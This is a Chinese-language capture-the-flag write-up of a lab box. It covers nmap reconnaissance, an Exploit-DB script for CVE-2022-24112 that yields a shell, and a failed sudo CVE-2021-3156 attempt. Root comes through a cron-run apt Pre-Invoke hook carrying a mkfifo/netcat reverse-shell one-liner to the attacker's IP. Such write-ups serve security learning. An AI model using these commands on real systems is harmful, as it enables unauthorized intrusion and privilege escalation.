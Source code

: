 nmap 結果
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
9443/tcp  open  tungsten-https
43500/tcp open  unknown
```

連上他的網站功能都沒有用 他有一個留言板發送也會發送失敗
![image](https://hackmd.io/_uploads/ByPjDgbYye.png)

他有一個 43500 port 去連線 會回傳 json 資料 感覺很像什麼 api 
![image](https://hackmd.io/_uploads/SybVte-Kkg.png)

所以去看看他的 response header 發現到他用的 server 版本
![image](https://hackmd.io/_uploads/rJQUKxWYJl.png)

上網去找有沒有 payload 找到一個 RCE 雖然版本不同 但因為是更新的所以可以兼容 [CVE:2022-24112](https://www.exploit-db.com/exploits/50829)

本地起監聽並且執行這個 script
```
python3 50829.py http://192.168.110.220:43500/ 192.168.45.198 443
```

成功連進去並拿到 user flag
![image](https://hackmd.io/_uploads/HJP2--ZY1x.png)

放了 linpeas 後首先看到 sudo 版本為 1.8.31 想到之前有一個
![image](https://hackmd.io/_uploads/r1kT7W-Fye.png)

有一個 [CVE-2021-3156](https://github.com/worawit/CVE-2021-3156) 可以使用，但用了後他被 patched 掉了
```
try exploit_nss.py first
If an error is not glibc tcache related, you can try exploit_timestamp_race.c next
```

之後在 linpeas 有看到 `/etc/apt/apt.conf.d` 
![image](https://hackmd.io/_uploads/Hy6B4WWF1x.png)

上網查有找到一個可以使用的[漏洞](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation)

原理主要是透過 裡頭的 apt 會在 cron 裡頭重複執行 可以去這裡查看 `cat /etc/crontab`
![image](https://hackmd.io/_uploads/S1dMSW-tye.png)

先本地架監聽後使用裡面的 payload
```
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.198 1234 >/tmp/f"};' > pwn
```

成功提權並拿到 root
![image](https://hackmd.io/_uploads/Sy_JUW-YJg.png)

小知識 如果畫面出現這樣 > 代表是單雙引號沒有閉合所以可以用以下指令把他閉合
```
' d04d04
' d04d04
'
"
```
![image](https://hackmd.io/_uploads/By5mL--FJe.png)
